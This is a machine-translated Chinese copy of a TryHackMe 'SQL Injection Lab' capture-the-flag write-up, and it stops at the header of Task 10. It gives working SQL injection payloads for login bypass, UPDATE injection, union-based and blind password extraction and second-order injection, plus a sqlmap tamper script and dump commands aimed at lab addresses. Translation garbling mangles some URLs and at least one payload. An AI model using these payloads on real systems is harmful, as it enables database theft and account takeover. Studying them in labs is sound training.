# SQL 注入实验室 Tryhackme 书面报告

> 原文：<https://infosecwriteups.com/sql-injection-lab-tryhackme-writeup-fcf30f846e82?source=collection_archive---------0----------------------->

## **这是 Tryhackme 工作室“SQL 注入实验室”的一篇文章**



【https://tryhackme.com/room/sqlilab 号

**房间链接:**[https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)
**注:此房免费**

在你完成这个记录之前，先完成这个房间

## [SQL 注入 Tryhackme 写文章](https://shamsher-khan.medium.com/sql-injection-tryhackme-writeup-e7c78542bfb9)



[https://shams her-Khan . medium . com/SQL-injection-tryhackme-writeup-e7c 78542 bfb 9](https://shamsher-khan.medium.com/sql-injection-tryhackme-writeup-e7c78542bfb9)

# 任务 SQL 注入简介:第 1 部分

SQL 注入是一种技术，通过这种技术，攻击者可以执行他们自己的恶意 SQL 语句，通常称为恶意负载。通过恶意的 SQL 语句，攻击者可以从受害者的数据库中窃取信息；更糟糕的是，他们可能能够对数据库进行更改。我们的员工管理 web 应用程序有 SQL 注入漏洞，它模仿了开发人员经常犯的错误。

应用程序通常需要动态 SQL 查询来根据用户设置的不同条件显示内容。为了支持动态 SQL 查询，开发人员通常将用户输入直接连接到 SQL 语句中。如果不对接收到的输入进行检查，字符串连接将成为导致 SQL 注入漏洞的最常见错误。如果没有输入敏感性，用户可以让数据库将用户输入解释为 SQL 语句，而不是数据。换句话说，攻击者必须能够访问一个他们可以控制的参数，这个参数将进入 SQL 语句。通过控制参数，攻击者可以注入恶意查询，该查询将由数据库执行。如果应用程序没有从攻击者控制的参数中清理给定的输入，查询将容易受到 SQL 注入攻击。

下面的 PHP 代码演示了从。来自 POST 请求的用户和密码变量被直接连接到 SQL 语句中。

```
$query = "SELECT * FROM users WHERE username='" + $_POST["user"] + "' AND password= '" + $_POST["password"]$ + '";"
```

如果攻击者在 name 参数中提供值“OR 1=1”，查询可能会返回多个用户。大多数应用程序将处理返回的第一个用户，这意味着攻击者可以利用这一点，并作为查询返回的第一个用户登录。双破折号(—)序列是 SQL 中的注释指示符，导致查询的其余部分被注释掉。在 SQL 中，字符串包含在单引号(')或双引号(")中。输入中的单引号(')用于结束字符串文字。如果攻击者在 name 参数中输入' OR 1 = 1--，并将密码留空，那么上面的查询将产生下面的 SQL 语句。

```
SELECT * FROM users WHERE username = '' OR 1=1-- -' AND password = ''
```

如果数据库执行上面的 SQL 语句，将返回 users 表中的所有用户。因此，攻击者绕过应用程序的身份验证机制，作为查询返回的第一个用户登录。

使用— —而不是——的原因主要是因为 MySQL 处理双破折号注释样式的方式。

从序列到行尾。在 MySQL 中——(双破折号)注释样式要求第二个破折号后面至少跟一个空格或控制字符(比如空格、制表符、换行符等等)。这种语法与标准的 SQL 注释语法略有不同，如 1.7.2.4 章节“作为注释的开始”中所讨论的。([](https://dev.mysql.com/doc/refman/8.0/en/comments.html)****)****

**内联 SQL 注释最安全的解决方案是使用— <space><any character="">比如—，因为如果它被 URL 编码成—% 20—它仍然会被解码为—。更多信息，请参见:[](https://blog.raw.pm/en/sql-injection-mysql-comment/)</any></space>**

****SQL 注入 1:输入框非字符串****

****当用户登录时，应用程序执行以下查询:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'**
```

****登录时，用户向 profileID 参数提供输入。对于这个挑战，参数接受一个整数，如下所示:****

```
**profileID=10**
```

****因为没有输入清理，所以可以通过使用任何真条件(例如下面的条件)作为 ProfileID 来绕过登录****

```
**1 or 1=1-- -**
```

****绕过登录并检索标志。****

****SQL 注入 2:输入框字符串****

****这个挑战使用与前一个挑战相同的查询。但是，该参数需要的是字符串而不是整数，如下所示:****

```
**profileID='10'**
```

****因为它需要一个字符串，所以我们需要修改我们的有效负载来稍微绕过登录。下面一行将让我们进入:****

```
**1' or '1'='1'-- -**
```

****绕过登录并检索标志。****

****SQL 注入 3 和 4: URL 和 POST 注入****

****这里，SQL 查询与前一个相同:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'**
```

****但是在这种情况下，恶意用户输入不能通过登录表单直接注入到应用程序中，因为已经实现了一些客户端控件:****

```
**function **validateform**() {var profileID = document.inputForm.profileID.value;var password = document.inputForm.password.value;if (/^[a-zA-Z0-9]*$/.**test**(profileID) == false || /^[a-zA-Z0-9]*$/.**test**(password) == false) {**alert**("The input fields cannot contain special characters");return false;}if (profileID == null || password == null) {**alert**("The input fields cannot be empty.");return false;}}**
```

****上面的 JavaScript 代码要求 profileID 和密码只包含 a-z、A-Z 和 0–9 之间的字符。客户端控件只是为了改善用户体验，并不是一种安全功能，因为用户可以完全控制客户端及其提交的数据。比如可以使用 Burp Suite 这样的代理工具绕过客户端 JavaScript 验证**(**[**https://ports wigger . net/support/using-Burp-to-bypass-client-side-JavaScript-validation**](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)**)**。****

******q . 1**:SQL 注入 1:输入框非字符串的标志是什么？****

****************

******q . 2**:SQL 注入 2:输入框字符串的标志是什么？****

****************

******q . 3**:SQL 注入 3: URL 注入的标志是什么？****

****此挑战在提交登录表单时使用 GET 请求，如下所示:****

********

****通过直接访问以下 URL，可以轻松绕过登录和客户端验证:****

```
**[http://10.10.231.136:5000/sesqli3/login?profileID=](http://10.10.231.136:5000/sesqli3/login?profileID=-1')a' or 1=1 --a' or 1=1 --&password=a**
```

****浏览器会自动为我们进行 URL 编码。因为 HTTP 协议不支持请求中的所有字符，所以需要 Urlencoding。进行 urlencoded 时，URL 如下所示:****

****使用 **HackBar 2 扩展**将您的有效负载转换成 urlencode****

****************

```
**a'%20or%201%3d1%20--10.10.231.136:5000/sesqli3/login?profileID=a'%20or%201%3d1%20--&password=a**
```

****%27 变成单引号(')，而%20 变成空格。****

****************

******q . 4**:SQL 注入 4: POST 注入的标志是什么？****

******SQL 注入 4: POST 注入**在提交这个挑战的登录表单时，它使用 HTTP POST 方法。可以删除/禁用验证登录表单的 JavaScript，或者提交一个有效的请求并用代理工具(如 Burp Suite)拦截并修改它:****

****这意味着 url 将不显示任何参数****

****这就是为什么我们使用 burpsuite 来查看参数并更改它****

********

****捕获请求****

********

****用**a’或 1=1 —** 更改 profileID****

********

****并点击转发****

********

# ****任务 SQL 注入简介:第 2 部分****

****登录“SQL 注入 5:更新语句”挑战并利用易受攻击的配置文件页面来查找标志。可以使用的凭据有:****

****profileID: **10******

****密码:**工具或******

****这里必须完成为查找表和列名而演示的相同枚举，因为标志存储在另一个表中。****

****************

## ****对更新语句的 SQL 注入攻击****

****如果 SQL 注入发生在 UPDATE 语句上，损害可能会严重得多，因为它允许用户更改数据库中的记录。在员工管理应用程序中，有一个编辑个人资料页面，如下图所示。****

********

****此编辑页面允许员工更新他们的信息，但他们不能访问所有可用字段，用户只能更改他们的信息。如果表单易受 SQL 注入攻击，攻击者可以绕过实现的逻辑，更新他们不应该更新的字段，或者为其他用户更新字段。****

****我们现在将通过配置文件页面上的 UPDATE 语句来枚举数据库。我们将假设我们没有数据库的先验知识。通过查看网页的源代码，我们可以通过查看 name 属性来识别潜在的列名。这些列不一定需要命名为 this，但是很有可能命名为 this，而且像“email”和“password”这样的列名并不少见，很容易被猜到。****

********

****为了确认表单易受攻击并且我们有有效的列名，我们可以尝试在昵称和电子邮件字段中插入类似以下代码的内容:****

```
**asd',nickName='test',email='hacked**
```

****当将恶意有效载荷注入昵称字段时，仅更新昵称。当注入电子邮件字段时，两个字段都会更新:****

****************

****第一个测试确认了应用程序易受攻击，并且我们有正确的列名。如果我们有错误的列名，那么任何字段都不会被更新。由于这两个字段都是在注入恶意负载后更新的，因此原始 SQL 语句可能类似于以下代码:****

```
**UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>**
```

****有了这些知识，我们就可以尝试识别正在使用的数据库。有几种方法可以做到这一点，但最简单的方法是让数据库识别自己。以下查询可用于识别 MySQL、MSSQL、Oracle 和 SQLite:****

```
*****# MySQL and MSSQL***',nickName=@@version,email='***# For Oracle***',nickName=(SELECT banner FROM v$version),email='***# For SQLite***',nickName=sqlite_version(),email='**
```

****************

****知道我们在处理什么样的数据库，就更容易理解如何构造我们的恶意查询。我们可以通过提取所有的表来枚举数据库。在下面的代码中，我们执行一个子查询来从数据库中获取所有的表，并将它们放入昵称字段中。子查询包含在参数中。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数用于同时转储所有的表。****

> *****"**[***group _ concat()***](https://sqlite.org/lang_aggfunc.html#groupconcat)*函数返回一个字符串，该字符串是 x 的所有非空值的串联。如果参数 Y 存在，则它用作 x 实例之间的分隔符。如果省略 Y，则逗号("，")用作分隔符。连接元素的顺序是任意的。******

```
***',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='***
```

**********

*****通过注入上面的代码，我们可以看到数据库中唯一的表叫做" **usertable** 和" **secrets"*******

**********

*****然后我们可以继续从**用户表:**中提取所有的列名*****

```
***',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='***
```

**********

*****正如下面可以看到的，用户表包含以下列:UID、name、profileID、salary、passportNr、email、nickName 和 password:*****

**********

*****通过知道列的名称，我们可以从数据库中提取我们想要的数据。例如，下面的查询将从 secrets 中提取 profileID、名称和密码。子查询使用 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数同时转储所有信息，而 [||](https://sqlite.org/lang_expr.html#operators) 运算符是“concatenate”——它将操作数**(**[**sqlite.org**](https://sqlite.org/lang_expr.html#operators)**)的字符串连接在一起。*******

```
***',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='***
```

********************

*****嘣！我们得到了**标志*******

# *****任务 4:易受攻击的启动:身份验证被破坏*****

*****从 [http://10.10.110.236:5000，](http://MACHINE_IP:5000,)上的登陆页面，转到“跟踪:易受攻击的启动”([http://10 . 10 . 110 . 236:5000/challenge 1/](http://10.10.110.236:5000/challenge1/))下的“已破坏的认证”。*****

**********

*****绕过登录并检索标志。*****

**********

# *****任务 5:易受攻击的启动:身份验证被破坏 2*****

# *****目标*****

*****这个挑战建立在之前的挑战之上。这里的目标是找到一种方法，在不使用盲目注入的情况下，转储数据库中的所有密码来检索标志。*****

# *****描述*****

*****登录表单仍然易受 SQL 注入攻击，使用 **'** **或 1 = 1—**作为用户名可以绕过登录。*****

*****在转储所有密码之前，我们需要确定登录查询的结果在应用程序中返回的位置。登录后，当前登录用户的名称显示在右上角，因此可以将数据转储到那里，如下所示:*****

********************

*****来自查询的数据也可以存储在会话 cookie 中。可以通过在浏览器中打开开发人员工具来提取会话 cookie，这可以通过按 F12 来完成。然后导航到存储并复制会话 cookie 的值，如下所示:*****

**********

*****然后可以在[](https://www.kirsle.net/wizards/flask-session.cgi)**或通过自定义脚本对 cookie 进行解码。可以通过访问[**http://10 . 10 . 110 . 236:5000/download/decode _ cookie . py**](http://10.10.110.236:5000/download/decode_cookie.py)在虚拟机内部下载用于解码 cookie 的脚本。*******

*****以**或 1 = 1—**作为用户名登录后，可以在下面看到解码后的 cookie，很明显来自登录查询的用户 id 和用户名放在其中。*****

********************

*****使用基于联盟的 SQL 注入可以转储密码。要使基于工会的注入发挥作用，必须满足两个关键要求:*****

*   *****注入查询中的列数必须与原始查询中的列数相同*****
*   *****每列的数据类型必须与相应的类型相匹配*****

*****当登录到应用程序时，它执行下面的查询。从 SQL 语句中，我们可以看到它正在检索两列；id 和用户名。*****

```
***SELECT **id**, username FROM users WHERE username = '" + username + "' AND password = '" + password + "'***
```

*****一个一个地试试这个*****

```
***1' UNION SELECT NULL-- -1' UNION SELECT NULL, NULL-- -1' UNION SELECT NULL, NULL, NULL-- -***
```

********************

*****它显示查询已执行。在这种情况下，成功意味着当注入正确数量的列时，应用程序将成功登录。在其他情况下，如果启用了错误消息，当注入的列数不正确时，可能会显示一条警告，指出“UNION 左侧和右侧的选择没有相同的结果列数”。*****

*****通过使用 **' UNION SELECT 1，2 — -** 作为用户名，我们匹配了原始 SQL 查询中的列数，应用程序允许我们进入。登录后，我们可以看到用户名被替换为整数 2，这是我们在注入查询中用作第二列的内容。*****

********************

*****会话 cookie 中的用户名也是如此。通过解码，我们可以看到用户名已经被替换为与上面相同的值*****

********************

*****枚举数据库以查找表和列，就像我们在任务 2 SQL 注入介绍中所做的那样。像[**payloads all things**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)**这样的备忘单对此很有帮助。挑战的目标是转储所有密码以获得标志，所以在这种情况下，我们将猜测列名为*密码*，表名为*用户*。按照这种逻辑，可以使用以下代码转储密码:*******

```
*****' UNION SELECT 1, password from users-- -*****
```

****************************

*******但是，前面的语句只会返回一个密码。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数可以帮助实现同时转储所有密码的目标。*******

*******通过将以下代码插入用户名字段:*******

```
*****' UNION SELECT 1,group_concat(password) FROM users-- -*****
```

**************

*******嘣！我们拿到了**国旗*********

# *****任务 6:易受攻击的启动:被破坏的认证 3(盲目注入)*****

# *****目标*****

*****这个挑战和前一个挑战有相同的弱点。但是，不再可能从 Flask 会话 cookie 或通过用户名显示提取数据。登录表单仍然有同样的漏洞，但这一次的目标是滥用与盲目 SQL 注入登录表单提取管理员的密码。*****

# *****描述*****

*****基于布尔的盲 SQL 注入将用于提取密码。手动盲注既繁琐又耗时，因此计划构建一个脚本来逐字符提取密码。在制作自动化注入的脚本之前，理解注入是如何工作的是至关重要的。这个想法是发送一个 SQL 查询，询问密码中每个字符的真假。将分析应用程序的响应，以了解数据库返回的是真还是假。在这种情况下，如果响应成功，应用程序将让我们进入，或者在返回 false 的情况下，它将停留在登录页面上，显示“无效的用户名或密码”，如下图所示。*****

**********

*****如前所述，我们将向数据库发送密码中每个字符的布尔问题，询问数据库我们是否已经猜出了正确的字符。为了实现这一点，我们需要一种方法来控制我们所在的字符，并在每次我们猜测到当前位置的正确字符时递增它。SQLite 的 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数可以帮助我们实现这个功能。*****

*****" SQLite substr 函数从一个字符串中返回一个从指定位置开始的具有预定义长度的子字符串."( [SQLite 教程](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/))*****

*****substr 的第一个参数是字符串本身，它将是管理员的密码。第二个参数是起始位置，第三个参数是将要返回的子字符串的长度。*****

```
*****SUBSTR( string, <start>, <length>)*****
```

*****下面是一个使用中的 [substr](https://sqlite.org/lang_corefunc.html#substr) 的例子——等号(=)后面的字符表示返回的子字符串。*****

```
*****-- Changing startSUBSTR("THM{Blind}", 1,1) = TSUBSTR("THM{Blind}", 2,1) = HSUBSTR("THM{Blind}", 3,1) = M-- Changing lengthSUBSTR("THM{Blind}", 1,3) = THM*****
```

*****下一步是将管理员的密码作为字符串输入到 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数中。这可以通过以下查询实现:*****

```
*****(SELECT password FROM users LIMIT 0,1)*****
```

*****[LIMIT](https://sqlite.org/lang_select.html#limitoffset) 子句用于限制 SELECT 语句返回的数据量。第一个数字 0 是偏移量，第二个整数是限值:*****

```
*****LIMIT <OFFSET>, <LIMIT>*****
```

*****下面是几个关于[限制](https://sqlite.org/lang_select.html#limitoffset)条款的例子。右边的表代表用户表。*****

```
*****sqlite> SELECT password FROM users LIMIT 0,1THM{Blind}sqlite> SELECT password FROM users LIMIT 1,1Summer2019!sqlite> SELECT password FROM users LIMIT 0,2THM{Blind}Summer2019!*****
```

*****THM { Blind }夏季！维京 123*****

*****返回管理员密码第一个字符的 SQL 查询如下所示:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)*****
```

*****现在我们需要一种方法来比较密码的第一个字符和我们猜测的值。比较字符很容易，我们可以这样做:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'*****
```

*****然而，这种方法是否有效将取决于应用程序如何处理输入。对于这个挑战，应用程序将用户名转换为小写，这打破了前面提到的方法，因为大写 T 与小写 T 不同。ASCII T 的十六进制表示是 0x54，小写 T 是 0x74。为了处理这个问题，我们可以通过替换类型 [X](https://www.sqlite.org/printf.html#substitution_types) 将字符输入为十六进制表示，然后使用 SQLite 的 [CAST](https://sqlite.org/lang_expr.html#castexpr) 表达式将值转换为数据库期望的数据类型。*****

*****" X，X:参数是以十六进制显示的整数。小写的十六进制用于%x，大写的用于% X”“([sqlite.org](https://www.sqlite.org/printf.html#substitution_types))*****

*****这意味着我们可以将 T 输入为 X'54 '。要将值转换为 SQLite 的文本类型，我们可以使用如下的 CAST 表达式:CAST(X'54' as Text)。我们最后的查询现在看起来如下:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)*****
```

*****在使用我们构建的查询之前，我们需要使它适合原始查询。我们的查询将放在用户名字段中。我们可以通过添加一个单引号(')来关闭 username 参数，然后附加一个 and 运算符来添加我们的条件。然后在查询末尾添加两个破折号(—)来注释掉密码检查。完成后，我们恶意查询如下所示:*****

```
*****admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -*****
```

*****当将其注入用户名字段时，数据库执行的最终查询将是:*****

```
*****SELECT **id**, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)*****
```

*****如果应用程序响应 302 重定向，那么我们就找到了密码的第一个字符。为了获得完整的密码，攻击者必须对密码中的每个字符进行多次测试。测试每一个字符都很繁琐，使用脚本更容易实现。一个简单的解决方案是遍历每个可能的 ASCII 字符，并将其与数据库的字符进行比较。上述方法会产生大量流向目标的流量，但不是最有效的方法。机内提供了一个示例脚本，可以前往[**http://10 . 110 . 236:5000/view/challenge 3/challenge 3-exploit . py**](http://10.10.110.236:5000/view/challenge3/challenge3-exploit.py)**查看并下载；**注意，有必要使用 password_len 变量更改密码长度。密码的长度可以通过查询数据库找到。例如，在下面的查询中，我们询问数据库密码的长度是否等于 37:*****

```
*****admin' AND length((SELECT password from users where username='admin'))==37-- -*****
```

********************

*****此外，该脚本需要大量不必要的请求。一个额外的挑战可能是建立一个更有效的工具来检索密码。*****

*****解决这一挑战的另一种方法是使用 sqlmap 之类的工具，这是一种开源工具，可以自动化检测和利用 SQL 注入缺陷的过程。以下命令可用于利用 sqlmap 漏洞:*****

```
*****sqlmap -u [http://10.10.110.236:5000/challenge3/login](http://10.10.110.236:5000/challenge3/login) --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump*****
```

**********

# *****任务 7:易受攻击的启动:易受攻击的注释*****

## *****目标*****

*****在这里，以前的漏洞已被修复，登录表单不再容易受到 SQL 注入。该团队增加了一个新的注释功能，允许用户在他们的页面上添加注释。这个挑战的目标是找到漏洞并转储数据库以找到标志。*****

## *****描述*****

*****通过注册新帐户并登录应用程序，用户可以通过点击左上方菜单中的“Notes”来导航到新的 Notes 功能。在这里，可以添加新的注释，所有用户的注释都列在页面的底部，如下所示:*****

**********

*****notes 函数不是直接易受攻击的，因为插入 notes 的函数是安全的，因为它使用参数化查询。对于参数化查询，SQL 语句首先用占位符(？)为参数。然后，用户输入被传递到查询的每个参数中。参数化查询允许数据库区分代码和数据，而不管输入是什么。*****

```
*****INSERT INTO notes (username, title, note) VALUES (?, ?, ?)*****
```

*****即使使用了参数化查询，如果应用程序不清理恶意数据，服务器也会接受恶意数据并将其放入数据库中。不过，参数化查询会阻止输入指向 SQL 注入。由于应用程序可能接受恶意数据，所有查询都必须使用参数化查询，而不仅仅是直接接受用户输入的查询。*****

*****用户注册函数也利用参数化查询，所以当执行下面的查询时，只执行 INSERT 语句。它将接受任何恶意的输入，如果不清理它，就把它放在数据库中，但是参数化查询防止输入导致 SQL 注入。*****

```
*****INSERT INTO users (username, password) VALUES (?, ?)*****
```

*****但是，获取属于用户的所有笔记的查询不使用参数化查询。用户名被直接连接到查询中，这使得它容易受到 SQL 注入的攻击。*****

```
*****SELECT title, note FROM notes WHERE username = '" + username + "'*****
```

*****这意味着，如果我们用一个恶意的名称注册一个用户，一切都会很好，直到用户导航到 notes 页面，不安全的查询试图为恶意用户获取数据。*****

*****通过使用以下名称创建用户:*****

```
*****' union select 1,2'*****
```

*****我们应该能触发二次注射:*****

**********

*****使用此用户名，应用程序执行以下查询:*****

```
*****SELECT title, note FROM notes WHERE username = '' union select 1,2''*****
```

*****然后在新用户的 notes 页面上，我们可以看到查询中的第一列是注释标题，第二列是注释本身:*****

**********

*****有了这些知识，这就很容易被利用。例如，要从数据库中获取所有的表，我们可以创建一个名为:*****

```
*****' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''*****
```

*****要在密码中找到该标志，请注册一个用户名:*****

*****' union select 1，group _ concat(password from users '*****

*****使用 Sqlmap 自动化开发*****

*****可以使用 sqlmap 来自动化这种攻击，但是使用 sqlmap 的标准攻击将会失败。注入发生在用户注册时，但是易受攻击的函数位于注释页面上。要让 sqlmap 利用此漏洞，它必须执行以下步骤:*****

1.  *****注册一个恶意用户*****
2.  *****恶意用户登录*****
3.  *****转到注释页面触发注射*****

*****通过创建篡改脚本可以实现所有必要的步骤。Sqlmap 支持篡改脚本，即用于篡改注入数据的脚本。使用篡改脚本，我们可以轻松地修改有效负载，例如，向它添加自定义编码。它还允许我们设置其他东西，比如 cookies。*****

*****下面的篡改脚本中有两个自定义函数。第一个函数是 *create_account()* ，它用 sqlmap 的有效负载作为名称，用‘ASD’作为密码注册一个用户。下一个定制函数是 *login()* ，它以新创建的用户身份登录 sqlmap 并返回 Flask 会话 cookie。 *tamper()* 是脚本中的主要函数，它有*有效负载*和 ***kwargs* 作为参数。 ***kwargs* 保存诸如 HTTP 头之类的信息，我们需要将 Flask 会话 cookie 放在请求上，以允许 sqlmap 转到 notes 页面来触发 SQL 注入。 *tamper()* 函数首先从 *kwargs* 获取头，然后在应用程序上创建一个新用户，然后登录到应用程序并在 HTTP 头对象上设置 Flask 会话。*****

```
******#!/usr/bin/python*import requestsfrom lib.core.enums import PRIORITY__priority__ = PRIORITY.NORMALaddress = "http://10.10.1.134:5000/challenge4"password = "asd"def **dependencies**():passdef **create_account**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/signup", data=data)def **login**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/login", data=data)sessid = s.cookies.get("session", None)return "session={}".format(sessid)def **tamper**(payload, **kwargs):headers = kwargs.get("headers", {})create_account(payload)headers["Cookie"] = login(payload)return payload*****
```

*****篡改脚本所在的文件夹也需要一个空的 *__init__。py* 文件，以便 sqlmap 能够加载它。在使用篡改脚本启动 sqlmap 之前，更改脚本中的地址和密码变量。完成后，就可以使用以下命令利用该漏洞:*****

```
*****sqlmap --tamper so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup)  --data "username=admin&password=asd"--second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes)  -p username --dbms sqlite --technique=U --no-cast*# --tamper so-tamper.py - The tamper script**# --url - The URL of the injection point, which is /signup in this case**# --data - The POST data from the registraion form to /signup.**#   Password must be the same as the password in the tamper script**# --second-url* [*http://10.10.1.134:5000/challenge4/notes*](http://10.10.1.134:5000/challenge4/notes) *- Visit this URL to check for results**# -p username - The parameter to inject to**# --dbms sqlite - To speed things up**# --technique=U - The technique to use. [U]nion-based**# --no-cast - Turn off payload casting mechanism******
```

*****如果不使用 *—无转换*参数关闭有效负载转换机制，转储*用户*表可能会很困难。这里可以看到铸造和不铸造之间区别的一个例子:*****

## *****—启用铸造时:*****

```
*****admin' union **all** select **min**(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master where tbl_name=cast(x'7573657273' as text)-- daqo'-- 7573657273 is 'users' in **ascii*******
```

## *****—无铸件:*****

```
*****admin' union **all** select cast(x'717a6a7871' as text)||**id**||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null from users-- ypfr'*****
```

*****当 sqlmap 询问时，回答 no 以遵循 302 重定向，然后回答 yes 以继续进一步测试，如果它检测到一些 WAF/IP。当被问及是否要在以后的请求中合并 cookies 时，回答 no，说 no 以减少请求的数量。如下图所示，sqlmap 能够找到漏洞，这使我们能够自动利用它。*****

**********

*****然后可以通过转储 *users* 表找到该标志:*****

```
*****sqlmap --tamper tamper/so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast -T users --dump*****
```

*****Sqlmap 非常嘈杂，会增加很多试图利用这个应用程序的用户。因此，输出将被修整，可以看到下面的消息。*****

```
*****[WARNING] console output will be trimmed to last 256 rows due to large table size*****
```

*****但是，所有数据都会保存并写入转储文件，如下图所示。读取转储文件的顶部以获取标志:*****

**********

*******注意:**实时系统上的标志会有所不同。*****

# *****工作*****

*****利用易受攻击的函数并检索标志。*****

*****这次挑战的旗帜是什么？*****

******************************

*****最后增加“ **-T 用户—转储**”*****

```
*****sqlmap --tamper so-tamper.py --url [http://10.10.224.106:5000/challenge4/signup](http://10.10.224.106:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.224.106:5000/challenge4/notes](http://10.10.224.106:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast **-T users --dump*******
```

**********

# *****任务 8:易受攻击的启动:更改密码*****

# *****目标*****

*****对于此挑战，注释页面上的漏洞已被修复。新的更改密码功能已经添加到应用程序中，因此用户现在可以通过导航到配置文件页面来更改他们的密码。新函数容易受到 SQL 注入攻击，因为 UPDATE 语句将用户名直接连接到 SQL 查询中，如下所示。这里的目标是利用易受攻击的功能来获取管理员帐户的访问权限。*****

# *****描述*****

*****开发人员为密码参数使用了一个占位符，因为该输入直接来自用户。用户名不是直接来自用户，而是根据存储在会话对象中的用户 id 从数据库中获取。因此，开发人员认为使用用户名是安全的，并将其直接连接到查询中，而不是使用占位符:*****

```
*****UPDATE users SET password = ? WHERE username = '" + username + "'*****
```

*****为了利用这个漏洞并获得管理员用户帐户的访问权限，我们可以创建一个名为`admin'-- -`的用户。*****

*****注册恶意用户后，我们可以更新新用户的密码来触发漏洞。更改密码时，应用程序执行两个查询。首先，它向数据库询问我们当前用户的用户名和密码:*****

```
*****SELECT username, password FROM users WHERE **id** = ?*****
```

*****如果所有检查都没问题，它将尝试为我们的用户更新密码。因为用户名直接连接到 SQL 查询中，所以执行的查询将如下所示:*****

```
*****UPDATE users SET password = ? WHERE username = 'admin' -- -'*****
```

*****这意味着应用程序没有更新`admin' -- -`的密码，而是更新了*管理员*的密码。更新密码后，可以使用新密码以管理员身份登录并查看标志。*****

# *****工作*****

*****创建一个新用户并利用更新密码功能中的漏洞来访问 admin 帐户以获取标志。*****

*****让我们用**管理员创建新用户—:ASD*******

**********

*****现在登录到用户**admin’—:ASD*******

**********

*****登录后，转到个人资料页面，并通过此查询更改密码*****

*****旧密码= **asd*******

*****新密码= **通过*******

**********

*****是，密码已更改，现在以管理员身份登录**管理员:通过*******

********************

*****嘣！我们有旗子*****

# *****任务 9:易受攻击的启动:书名*****

# *****目标*****

*****该页面增加了一个新功能，现在可以在数据库中搜索书籍。新的搜索函数易受 SQL 注入攻击，因为它将用户输入直接连接到 SQL 语句中。任务的目标是利用这个漏洞找到隐藏的标志。*****

# *****描述*****

*****当用户首次登录挑战时，会出现一条消息，提示他们:*****

```
*****Testing a new function to search for books, check it out here*****
```

*****“此处”文本是一个链接，将用户带到[http://10 . 10 . 141 . 207/challenge 6/book？title=test](http://10.10.141.207/challenge6/book?title=test) ，这是包含易受攻击的搜索功能的页面，可以在此处看到:*****

**********

*****当搜索一本书时，web 页面执行带有参数`title`的 GET 请求。它执行的查询如下所示:*****

```
*****SELECT * from books WHERE **id** = (SELECT **id** FROM books WHERE title like '" + title + "%')*****
```

*****我们需要做的就是在 LIKE 操作符的右边关闭 LIKE 操作数。例如，我们可以通过注入以下命令来转储数据库中的所有书籍:*****

```
*****') or 1=1-- -*****
```

# *****工作*****

*****使用你所知道的关于 SQL 注入联盟的知识，利用易受攻击的图书搜索功能来检索旗帜。*****

*****创建新用户 **sam2:asd*******

*****并登录帐户*****

**********

*****我们可以通过注入以下命令来转储数据库中的所有书籍:*****

```
*****') or 1=1-- -*****
```

**********

*****在事先不知道列数的情况下，攻击者必须首先通过系统地注入具有不同列数的查询来枚举列数，直到显示错误。例如:*****

*****尝试每一个有效载荷*****

```
*****') order by 1-- -
') order by 2-- -
') order by 3-- -
') order by 4-- -
') order by 5-- -*****
```

**********

*****当我尝试的时候*****

```
*****') order by 5-- -*****
```

**********

*****它没有向我显示任何东西，这意味着这是攻击者的错误*****

*****这意味着在数据库中只有 4 列*****

*****让我们检查一下有多少列容易受到攻击，为此我们使用了 **UNION SELECT*******

```
*****') union select 1,2,3,4-- -*****
```

**********

*****查询显示第 3 列是易受攻击的 **{2，3，4}** 位置*****

*****让我们从数据库中获取信息*****

*****如果你了解 mysql，你可以很容易理解这个查询*****

```
*****') union select 1,group_concat(username),group_concat(password),4 from users-- -*****
```

**********

# *****任务 10:易受攻击的启动:书名 2*****

# *****目标*****

